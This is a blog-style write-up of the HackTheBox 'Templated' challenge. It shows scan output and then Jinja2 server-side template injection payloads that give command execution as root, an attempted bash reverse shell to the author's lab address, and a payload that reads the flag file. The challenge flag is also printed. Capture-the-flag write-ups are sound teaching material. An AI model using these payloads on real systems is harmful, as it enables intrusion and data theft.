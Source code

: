 ```yaml
---
layout: post
title: HTB — Challenge — Templated
date: 2023-01-20 00:00:00 -500
categories: [HackTheBox]
tags: [WEB, Server-Side Template Injection]
---
```


***

<center><strong><font color="White">Can you exploit this simple mistake?</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

### <font color="#FFA500">nuclei</font>

```
[tech-detect:python] [http] [info] http://161.35.162.53:31121
[INF] Using Interactsh Server: oast.fun
[options-method] [http] [info] http://161.35.162.53:31121 [OPTIONS, GET, HEAD]
[http-missing-security-headers:access-control-allow-headers] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:referrer-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:clear-site-data] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:access-control-allow-methods] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:permissions-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:access-control-allow-origin] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:access-control-expose-headers] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:strict-transport-security] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:x-frame-options] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:x-content-type-options] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:access-control-max-age] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:content-security-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://161.35.162.53:31121
[http-missing-security-headers:access-control-allow-credentials] [http] [info] http://161.35.162.53:31121
[robots-txt-endpoint] [http] [info] http://161.35.162.53:31121/robots.txt
```

### <font color="#FFA500">Searching for vulnerabilities</font>

All we can see here is that "site under construction". There is nothing can be found in site inspection.

robots.txt is 404.

Next searching for Jinja2 which is used on website I found a [vulnerability](https://www.exploit-db.com/exploits/46386) on exploit-db. 


Trying: `161.35.162.53:31121/{{4*4}}` we get "The page '16' could not be found". So we have some type of template injection. Changing that to `whoami` or `ls` does not print anything.

`http://161.35.162.53:31121/{{config}}` gives us:

```
The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

Following this article: [link](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

1. `http://161.35.162.53:31121/{{'abc'.__class__.__base__.__subclasses__()}}`
2. Here we should find the index of `_io._IOBase` class. First i just used number 95, it showed me the name of class I was directing to, then I went back to list of subclasses, searched for the one I was directed to and the IOBase one, then just addding needed number to the index.
3. `http://161.35.162.53:31121/%7B%7B'abc'.__class__.__base__.__subclasses__()[101]%7D%7D`
4. `http://161.35.162.53:31121/%7B%7B'abc'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]%7D%7D` reterns `'<class '_io.FileIO'>'`

Do not know why, but `http://161.35.162.53:31121/%7B%7B'abc'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()%7D%7D` did not work.

However, `http://161.35.162.53:31121/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` printed:

```
uid=0(root) gid=0(root) groups=0(root)
```

### <font color="#FFA500">Reverse shell</font>

`http://161.35.162.53:31121/{{request.application.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.11/4004 0>&1'").read()}}`

I do not know why, but I tried getting reverse shell, but it failed. Maybe it's blocking outcoming connection somehow. 

### <font color="#FFA500">Reading flag</font>

`http://161.35.162.53:31121/{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

`http://161.35.162.53:31121/{{request.application.__globals__.__builtins__.__import__('cat flag.txt').popen('ls').read()}}` redirects to google, so we need to replace ' ' (space) with `%20`

`http://161.35.162.53:31121/{{request.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()}}`

Finally, our flag: `HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`